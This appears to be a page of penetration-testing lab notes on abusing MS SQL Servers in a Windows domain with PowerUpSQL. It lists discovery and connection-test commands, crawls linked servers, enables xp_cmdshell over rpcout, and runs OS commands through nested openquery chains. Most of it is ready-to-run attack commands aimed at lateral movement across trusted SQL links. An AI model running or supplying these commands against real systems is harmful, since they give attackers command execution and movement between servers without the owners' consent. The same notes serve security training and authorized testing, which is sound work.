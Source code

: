 - MS SQL servers are generally deployed in plenty in a Windows domain.
- SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.
- For MSSQL and PowerShell hackery, lets use PowerUpSQL https://github.com/NetSPI/PowerUpSQL
- Discovery (SPN Scanning)
```
Get-SQLInstanceDomain
```
- Check Accessibility
```
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
- Gather Information
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Database Links
- A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
- In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.
- Database links work even across forest trusts.
- Searching Database Links
	- Look for links to remote servers
	```
	Get-SQLServerLink -Instance dcorp-mssql -Verbose
	Or
	select * from master..sysservers
	```
- Enumerating Database Links - Manually
```
Openquery() function can be used to run queries on a linked database

select * from openquery("dcorp-sql1",'select * from master..sysservers')
```
- Enumerating Database Links
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose

or

Openquery queries can be chained to access links within links (nested links)

select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')') 
```
- Executing Commands
	- On the target server, either xp_cmdshell should be already enabled; or
	- If rpcout is enabled (disabled by default), xp_cmdshell can be enabled using:
	```
	EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
	```
	- Use the -QuertyTarget parameter to run Query on a specific instance (without -QueryTarget the command tries to use xp_cmdshell on every link of the chain)
	```
	Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'" 
	
	Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
	```
	- From the initial SQL server, OS commands can be executed using nested link queries:
	```
	select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
	```
